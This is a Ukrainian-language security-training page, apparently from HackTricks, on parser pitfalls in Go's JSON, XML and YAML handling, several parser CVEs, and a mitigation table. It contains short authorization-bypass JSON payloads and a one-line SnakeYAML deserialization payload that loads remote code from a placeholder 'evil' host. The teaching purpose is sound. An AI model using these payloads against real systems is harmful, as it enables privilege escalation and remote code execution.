 # JSON, XML & Yaml Hacking & Проблеми

{{#include ../banners/hacktricks-training.md}}

## Декодер JSON у Go

Було виявлено наступні проблеми в парсері JSON у Go, хоча вони можуть бути присутні й в інших мовах. Ці проблеми були опубліковані в [**this blog post**](https://blog.trailofbits.com/2025/06/17/unexpected-security-footguns-in-gos-parsers/).

Парсери JSON, XML і YAML у Go мають довгу низку невідповідностей і небезпечних налаштувань за замовчуванням, які можна зловживати для **bypass authentication**, **escalate privileges**, або **exfiltrate sensitive data**.


### (Un)Marshaling Unexpected Data

Мета — експлуатувати structs, які дозволяють нападнику читати/записувати чутливі поля (наприклад, `IsAdmin`, `Password`).

- Приклад Struct:
```go
type User struct {
Username string `json:"username,omitempty"`
Password string `json:"password,omitempty"`
IsAdmin  bool   `json:"-"`
}
```
- Поширені вразливості

1. **Відсутній tag** (без tag = field все ще обробляється за замовчуванням):
```go
type User struct {
Username string
}
```
Payload:
```json
{"Username": "admin"}
```
2. **Некоректне використання `-`**:
```go
type User struct {
IsAdmin bool `json:"-,omitempty"` // ❌ wrong
}
```
Payload:
```json
{"-": true}
```
✔️ Правильний спосіб заблокувати поле від (де)маршалінгу:
```go
type User struct {
IsAdmin bool `json:"-"`
}
```
### Відмінності парсерів

Мета — обхід авторизації шляхом використання того, як різні парсери по-різному інтерпретують один і той же payload, наприклад:
- CVE-2017-12635: Apache CouchDB обхід через дубліковані ключі
- 2022: Zoom 0-click RCE через розбіжності в XML-парсерах
- GitLab 2025 SAML обхід через особливості XML

**1. Дубліковані поля:**
Go's `encoding/json` бере **останнє** поле.
```go
json.Unmarshal([]byte(`{"action":"UserAction", "action":"AdminAction"}`), &req)
fmt.Println(req.Action) // AdminAction
```
Інші парсери (наприклад, Java’s Jackson) можуть взяти **перший**.

**2. Нечутливість до регістру:**
Go нечутливий до регістру:
```go
json.Unmarshal([]byte(`{"AcTiOn":"AdminAction"}`), &req)
// matches `Action` field
```
Навіть трюки з Unicode працюють:
```go
json.Unmarshal([]byte(`{"aKtionſ": "bypass"}`), &req)
```
**3. Cross-service mismatch:**
Уявімо:
- Proxy, написаний на Go
- AuthZ service, написаний на Python

Attacker sends:
```json
{
"action": "UserAction",
"AcTiOn": "AdminAction"
}
```
- Python бачить `UserAction`, дозволяє його
- Go бачить `AdminAction`, виконує його


### Data Format Confusion (Polyglots)

Мета — експлуатувати системи, які змішують формати (JSON/XML/YAML) або не блокують доступ при помилках парсера, наприклад:
- **CVE-2020-16250**: HashiCorp Vault parsed JSON with an XML parser after STS returned JSON instead of XML.

Атакуючий контролює:
- заголовок `Accept: application/json`
- Частковий контроль тіла JSON

XML-парсер Go розпарсив його **все одно** і довірився ін'єкованій ідентичності.

- Crafted payload:
```json
{
"action": "Action_1",
"AcTiOn": "Action_2",
"ignored": "<?xml version=\"1.0\"?><Action>Action_3</Action>"
}
```
Результат:
- **Go JSON** parser: `Action_2` (case-insensitive + last wins)
- **YAML** parser: `Action_1` (case-sensitive)
- **XML** parser: parses `"Action_3"` inside the string

---

## Помітні вразливості парсерів (2023-2025)

> Наведені далі вразливості з публічно доступними експлойтами показують, що небезпечний парсинг — це багатомовна проблема, а не лише проблема Go.

### SnakeYAML Deserialization RCE (CVE-2022-1471)

* Вражає: `org.yaml:snakeyaml` < **2.0** (використовується в Spring-Boot, Jenkins тощо).
* Основна причина: `new Constructor()` десеріалізує **довільні Java-класи**, що дозволяє gadget chains, які призводять до remote-code execution.
* Однорядковий PoC (відкриє калькулятор на вразливому хості):
```yaml
!!javax.script.ScriptEngineManager [ !!java.net.URLClassLoader [[ !!java.net.URL ["http://evil/"] ] ] ]
```
* Виправлення / Мітігація:
1. **Upgrade to ≥2.0** (uses `SafeLoader` by default).
2. У старіших версіях явно використовуйте `new Yaml(new SafeConstructor())`.

### libyaml Double-Free (CVE-2024-35325)

* Стосується: `libyaml` ≤0.2.5 (C-бібліотека, яку використовують численні прив'язки для мов).
* Проблема: виклик `yaml_event_delete()` двічі призводить до double-free, який зловмисники можуть перетворити на DoS або, в деяких сценаріях, heap exploitation.
* Статус: Upstream відхилив як “API misuse”, але дистрибутиви Linux випустили патчовану версію **0.2.6**, яка обнуляє вказівник після звільнення пам'яті.

### RapidJSON Integer (Under|Over)-flow (CVE-2024-38517 / CVE-2024-39684)

* Стосується: Tencent **RapidJSON** до коміту `8269bc2` (<1.1.0-patch-22).
* Баг: у `GenericReader::ParseNumber()` неналежні арифметичні перевірки дозволяють зловмисникам сформувати величезні числові літерали, які обертаються й пошкоджують heap — врешті-решт це дозволяє підвищення привілеїв, коли отриманий граф об'єктів використовується для рішень щодо авторизації.

---

### 🔐 Mitigations (Updated)

| Ризик                               | Виправлення / Рекомендація                                |
|-------------------------------------|------------------------------------------------------------|
| Невідомі поля (JSON)                | `decoder.DisallowUnknownFields()`                          |
| Дублікати полів (JSON)              | ❌ В stdlib немає виправлення — перевіряйте за допомогою [`jsoncheck`](https://github.com/dvsekhvalnov/johnny-five) |
| Нечутливе до регістру зіставлення (Go) | ❌ Виправлення немає — перевіряйте struct tags + попередньо канонізуйте вхідні дані |
| XML сміттєві дані / XXE             | Використовуйте захищений парсер (`encoding/xml` + `DisallowDTD`)     |
| Невідомі ключі YAML                  | `yaml.KnownFields(true)`                                   |
| **Unsafe YAML deserialization**     | Використовуйте SafeConstructor / оновіть до SnakeYAML ≥2.0            |
| libyaml ≤0.2.5 double-free          | Оновіть до **0.2.6** або випуску, пропатченого дистрибутивом            |
| RapidJSON <patched commit           | Скомпілюйте з останньою версією RapidJSON (≥липень 2024)              |

## Див. також

{{#ref}}
mass-assignment-cwe-915.md
{{#endref}}

## Посилання

- Baeldung – “Resolving CVE-2022-1471 With SnakeYAML 2.0”
- Ubuntu Security Tracker – CVE-2024-35325 (libyaml)

{{#include ../banners/hacktricks-training.md}}
